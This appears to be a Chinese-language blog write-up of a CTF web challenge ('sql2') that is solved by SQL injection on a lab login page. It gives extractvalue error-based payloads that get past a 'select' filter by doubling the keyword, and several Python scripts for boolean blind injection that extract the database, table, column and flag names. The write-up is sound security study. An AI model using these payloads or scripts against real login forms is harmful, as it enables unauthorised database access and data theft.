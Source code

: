 ```yaml
---
title: 《从0到1：CTFer成长之路》Web之sql2
date: 2021-01-29 19:16:33
tags: [ctf, web]
---
```

# 导语
我没找到他的题目idXD
<!--more -->
![](1.jpg)

# sql2
打开题目提示去login.php看。
![](2.jpg)
查看源代码，提示url加?tips=1开启报错，用burpsuit可以查看，立刻想到使用报错注入
![](3.jpg)
同时先简单尝试一下，发现账号存在字符注入，用单引号闭合（1' or 1=1和1' and 1=2）
使用burp，如下
![](4.jpg)
当然，借助右边回应是账号不存在还是账号错误可以进行布尔注入，但是既然有了提示，为什么不用呢？
使用extractvalue报错注入，得到database为note
`1' or 1=1 and (extractvalue('anything',concat('\~',(select database()))))#`
![](5.jpg)
然后理所应当接下来操作是information_schema三连，但是他老说我语法有错，我看了半天直接心态小崩，搁网上找了找别人的wp，然后发现他过滤了select……于是双写select来information_schema三连。
`1' or 1=1 and (extractvalue('anything',concat('~',(seselectlect group_concat(table_name) from information_schema.tables where table_schema='note'))))#&pass=456`
![](6.jpg)
`1' or 1=1 and (extractvalue('anything',concat('~',(seselectlect group_concat(column_name) from information_schema.columns where table_name='fl4g'))))#`
![](7.jpg)
`1' or 1=1 and (extractvalue('anything',concat('~',(selselectect flag from note.fl4g))))#`
![](8.jpg)

然后我还顺着我看的wp的做法整了一遍布尔注入。
爆数据库长度
```
import requests
import string
 
 
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for i in range(30):
    key = "admin' and " + "(length(database())=" + str(i) + ")#"
    data = {'name':key, 'pass':'123'}
    r = requests.post(url, data=data).text
    #print(r)
    if right in str(r):
        print('the length of database is %s' %i)
```

爆数据库名
```
import requests
import string
 
 
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
length=4
name=''
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for j in range(1,length+1):
    for i in range(65,123):
        key = "admin'"+" and (ascii(substr(database(),%d,1))=%d)#"%(j,i)
        data = {'name':key, 'pass':'111'}
        r = requests.post(url, data=data).text
        if right in str(r):
            name+=chr(i)
            print(name)
```

爆表长
```
import requests
import string
 
 
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for i in range(30):
    key = "admin' and " + "length((sselectelect table_name FROM information_schema.tables WHERE table_schema=0x6e6f7465 limit 0,1))=" + str(i) + "#"
    data = {'name':key, 'pass':'111'}
    r = requests.post(url, data=data).text
    #print(r)
    if right in str(r):
        print('the length of table is %s' %i)
```
爆表
```
import requests
import string

 
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
length=4
name=''
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for j in range(1,length+1):
    for i in range(48,123):
        #key = "admin%1$' and " + "(substr(database(),0,1)=" + i + ")#"
        #key = "admin%1$' and " + "(substr(database(),"+str(j)+",1)=" + i + ")#"
        key = "admin'"+" and (ascii(substr((seselectlect  table_name FROM information_schema.tables WHERE table_schema=0x6e6f7465 limit 0,1),%d,1))=%d)#"%(j,i)
        data = {
    
    'name':key, 'pass':'111'}
        r = requests.post(url, data=data).text
        if right in str(r):
            name+=chr(i)
            print(name)
```
爆列长
```
import requests
import string

 
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for i in range(30):
    key = "admin' and " + "length((seselectlect column_name FROM information_schema.columns WHERE table_name=0x666c3467 limit 0,1))=" + str(i) + "#"
    data = {'name':key, 'pass':'111'}
    r = requests.post(url, data=data).text
    #print(r)
    if right in str(r):
        print('the length of column is %s' %i)
```
爆列
```
import requests
import string
 
 
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
length=4
name=''
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for j in range(1,length+1):
    for i in range(48,123):
        #key = "admin%1$' and " + "(substr(database(),0,1)=" + i + ")#"
        #key = "admin%1$' and " + "(substr(database(),"+str(j)+",1)=" + i + ")#"
        key = "admin'"+" and (ascii(substr((seselectlect  column_name FROM information_schema.columns WHERE table_name=0x666c3467 limit 0,1),%d,1))=%d)#"%(j,i)
        data = {'name':key, 'pass':'111'}
        r = requests.post(url, data=data).text
        if right in str(r):
            name+=chr(i)
            print(name)
```
爆flag长
```
import requests
import string
 
 
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for i in range(60):
    key = "admin' and " + "length((seselectlect flag FROM fl4g limit 0,1))=" + str(i) + "#"
    data = {'name':key, 'pass':'111'}
    r = requests.post(url, data=data).text
    #print(r)
    if right in str(r):
        print('the length of column is %s' %i)
```
爆flag
```
import requests
import string
 

dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="
length=26
name=''
right = '8bef'
url = 'http://eci-2ze3zvy43f4mvrfyf12o.cloudeci1.ichunqiu.com/login.php'
for j in range(1,length+1):
    for i in dic:
        key = "admin'"+" and (ascii(substr((sselectelect flag FROM fl4g limit 0,1),%d,1))="%j+str(ord(i))+")#"
        data = {'name':key, 'pass':'111'}
        r = requests.post(url, data=data).text
        if right in str(r):
            name+=i
            print(name)
```

参考
https://www.codetd.com/article/11976293